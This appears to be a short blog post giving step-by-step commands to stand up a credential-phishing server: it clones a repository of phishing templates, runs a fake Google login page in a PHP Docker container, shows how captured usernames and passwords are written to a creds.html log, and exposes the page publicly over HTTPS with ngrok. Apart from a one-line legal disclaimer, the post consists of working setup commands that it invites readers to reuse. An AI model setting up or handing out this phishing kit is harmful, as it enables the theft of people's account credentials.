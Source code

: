```yaml
---
title: 'Fly Phishing'
slug: fly-phishing
date: 2020-01-13
autotoc: true
excerpt: true
layout: post.html
collection: all, linux, security, phishing
---
```


This article will walk through setting up a phishing server on the fly. 

**This is only legal to do with written permission from an organization or user. I am not liable for this information being misuse and I do not endorse illegal activity using these methods.**

## Quick Setup:

```bash
git clone https://github.com/heywoodlh/lokis-portal.git ~/Documents/lokis-portal
sudo chown -R 33:33 ~/Documents/lokis-portal/
docker run -d --name lokis-portal -p 80:80 -v "$HOME"/Documents/lokis-portal:/var/www/html php:7-apache-buster
```
</br>


Notice the change of ownership to user ID and group to 33. This is the user/group of the `www-data` user for the `php:7-apache-buster` Docker container and that user will need permission to write to `creds.html`.


![alt text](https://raw.githubusercontent.com/heywoodlh/the-empire.systems/master/resources/pictures/google-phishing.png "Google Phishing Page")


The Google phishing page will be available at [http://localhost/google/](http://localhost/google). The [root directory](http://localhost) has a list of the templates that are available for phishing with. At the time of writing only the Google phishing page is working, but maybe future me will be proactive and build out/fix the rest of the templates.

The phishing templates are available [at Github](https://github.com/heywoodlh/lokis-portal). Feel free to reuse them as needed.

### Get Creds:

When running the command above, a file called `creds.html` will be accessible in `~/Documents/lokis-portal/creds.html`. Whenever a login occurs, that file will populate with logs. For example:

```bash
2020-01-13 11:52:25pm: accounts.google.com: 172.17.0.1 --- testing --- password --- Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
```
</br>



### Serve Via HTTPS:

Use Ngrok or a reverse proxy to easily serve the web page via HTTPS. For example, with Ngrok:

```bash
ngrok http 80
```
</br>
This will provide you with an HTTPS link that you could phish from.
